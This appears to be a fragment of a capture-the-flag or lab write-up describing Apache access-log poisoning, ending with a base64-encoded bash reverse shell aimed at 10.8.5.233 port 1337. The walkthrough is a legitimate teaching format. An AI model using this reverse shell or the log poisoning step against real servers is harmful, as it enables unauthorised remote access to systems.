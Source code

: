 What about Log Poisoning! 😈

First send a request to this location

```bash
/var/log/apache2/access.log
```

![image.png](../images/reset%208.png)

Now create a reverse shell in bash

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.8.5.233/1337 0>&1'" | base64 -w0
```

![image.png](../images/reset%209.png)
